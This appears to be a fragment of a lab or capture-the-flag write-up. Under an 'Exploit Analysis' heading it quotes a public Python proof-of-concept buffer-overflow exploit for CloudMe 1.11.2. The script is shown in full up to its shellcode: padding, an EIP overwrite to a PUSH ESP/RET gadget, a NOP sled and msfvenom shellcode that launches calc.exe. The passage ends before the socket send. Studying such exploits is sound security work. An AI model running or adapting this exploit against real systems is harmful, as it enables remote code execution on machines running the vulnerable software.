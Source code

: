 

### Update Exploit

#### Exploit Analysis

It looks like the exploit is a very simple buffer overflow:



    # Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
    # Date: 2020-04-27
    # Exploit Author: Andy Bowden
    # Vendor Homepage: https://www.cloudme.com/en
    # Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
    # Version: CloudMe 1.11.2
    # Tested on: Windows 10 x86

    #Instructions:
    # Start the CloudMe service and run the script.

    import socket

    target = "127.0.0.1"

    padding1   = b"\x90" * 1052
    EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
    NOPS       = b"\x90" * 30

    #msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
    payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
    payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
    payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
    payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
    payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
    payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
    payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
    payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
    payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
    payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
    payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
    payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
    payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
    payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
    payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
    payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
    payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"
